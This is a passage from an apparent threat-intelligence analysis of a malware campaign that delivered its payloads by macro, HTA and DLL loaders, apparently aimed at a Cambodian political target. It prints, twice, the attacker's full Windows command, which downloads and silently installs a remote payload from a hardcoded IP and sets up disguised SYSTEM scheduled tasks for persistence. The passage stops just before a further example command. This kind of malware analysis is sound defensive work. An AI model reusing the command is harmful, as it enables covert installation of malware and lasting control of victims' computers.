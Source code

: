 Figure 2 – The entire contents of the macro
 
The 'Company' field in this case, contains the raw command that the attacker wishes to run, downloading and executing the next stage of the malware:





cmd /c set /p=Set v=CreateObject(^"Wscript.Shell^"):v.Run ^"msiexec /q /i
 http://199.247.6.253/ud^",false,0 <nul >
C:\Windows\System32\spool\drivers\color\tmp.vbs & schtasks /create /sc MINUTE
/tn "Windows System" /tr "C:\Windows\System32\spool\drivers\color\tmp.vbs"
/mo 2 /F & schtasks /create /sc MINUTE /tn "Windows System" /tr
"C:\Windows\System32\spool\drivers\color\tmp.vbs" /mo 2 /RU SYSTEM /c set
/p=Set v=CreateObject(^"Wscript.Shell^"):v.Run ^"msiexec /q /i
http://199.247.6.253/ud^",false,0 <nul >
C:\Windows\System32\spool\drivers\color\tmp.vbs & schtasks /create /sc MINUTE
/tn "Windows System" /tr "C:\Windows\System32\spool\drivers\color\tmp.vbs"
/mo 2 /F & schtasks /create /sc MINUTE /tn "Windows System" /tr
"C:\Windows\System32\spool\drivers\color\tmp.vbs" /mo 2 /RU SYSTEM




123456789101112

cmd /c set /p=Set v=CreateObject(^"Wscript.Shell^"):v.Run ^"msiexec /q /i http://199.247.6.253/ud^",false,0 <nul >C:\Windows\System32\spool\drivers\color\tmp.vbs & schtasks /create /sc MINUTE/tn "Windows System" /tr "C:\Windows\System32\spool\drivers\color\tmp.vbs"/mo 2 /F & schtasks /create /sc MINUTE /tn "Windows System" /tr"C:\Windows\System32\spool\drivers\color\tmp.vbs" /mo 2 /RU SYSTEM /c set/p=Set v=CreateObject(^"Wscript.Shell^"):v.Run ^"msiexec /q /ihttp://199.247.6.253/ud^",false,0 <nul >C:\Windows\System32\spool\drivers\color\tmp.vbs & schtasks /create /sc MINUTE/tn "Windows System" /tr "C:\Windows\System32\spool\drivers\color\tmp.vbs"/mo 2 /F & schtasks /create /sc MINUTE /tn "Windows System" /tr"C:\Windows\System32\spool\drivers\color\tmp.vbs" /mo 2 /RU SYSTEM





 
Cluster B
Case 2: Delivery via HTA Loader - 1dc5966572e94afc2fbcf8e93e3382eef4e4d7b5bc02f24069c403a28fa6a458
 In this case the attackers sent an HTML Application file (.hta) to targets most likely as an email attachment. When opened and then executed, the key components of the HTA file downloads and executes further malware from a remote URLand loads a decoy image hosted externally (Figure 3).
 

Figure 3 – The decoy image loaded when the .HTA file is executed.
 
The decoy in Figure 3 strongly suggests the attackers were conducting an attack against a political entity in Cambodia. The Cambodia National Rescue Party is a politically motivated opposition movement.
 
Case 3: Delivery via DLL Loader -
0bb20a9570a9b1e3a72203951268ffe83af6dcae7342a790fe195a2ef109d855
 We identified three unique DLL loaders during this analysis. The loaders are extremely simple with a single exported function and are responsible for executing a single command. An exemplar command is given below:

